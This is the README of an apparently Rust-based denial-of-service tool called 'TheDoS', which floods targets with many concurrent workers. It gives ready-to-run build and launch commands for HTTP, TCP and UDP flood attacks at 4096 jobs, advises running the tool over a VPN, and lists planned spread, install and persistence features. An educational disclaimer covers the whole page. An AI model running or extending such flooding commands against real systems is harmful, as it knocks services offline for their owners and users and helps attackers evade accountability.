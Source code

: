 

<p align="center">
    <img src="https://github.com/wildonion/thedos/blob/master/onion.png"
</p>


## 🚨 Disclaimer

I AM **NOT** RESPONSIBLE FOR WHAT YOU WANT TO DO WITH THIS TOOL, THIS IS FOR EDUCATIONAL PURPOSES.

## ☠ TheDoS (The Developer of Sin)

Attack networks asynchronously by getting help of workers! 

<p align="center">
    <img src="https://github.com/wildonion/thedos/blob/master/log_nginx.png"
</p>

## 🚬 Usage

> run it over VPN

> default jobs are 4096

> build using: ```cargo build --release```

* start http attack with 4096 jobs: ```./thedos --http-addr http://example.app --jobs 4096```

* start tcp attack with 4096 jobs: ```./thedos --tcp-addr 93.184.216.34:24535 --jobs 4096```

* start udp attack with 4096 jobs: ```./thedos --udp-addr 93.184.216.34:24535 --jobs 4096```

OR

* start http attack with 4096 jobs: ```cargo run -- --http-addr http://example.app --jobs 4096```

* start tcp attack with 4096 jobs: ```cargo run -- --tcp-addr 93.184.216.34:24535 --jobs 4096```

* start udp attack with 4096 jobs: ```cargo run -- --udp-addr 93.184.216.34:24535 --jobs 4096```

## 🏗️ WIP

* proxy list

* `spread`, `install` and `persistence` methods
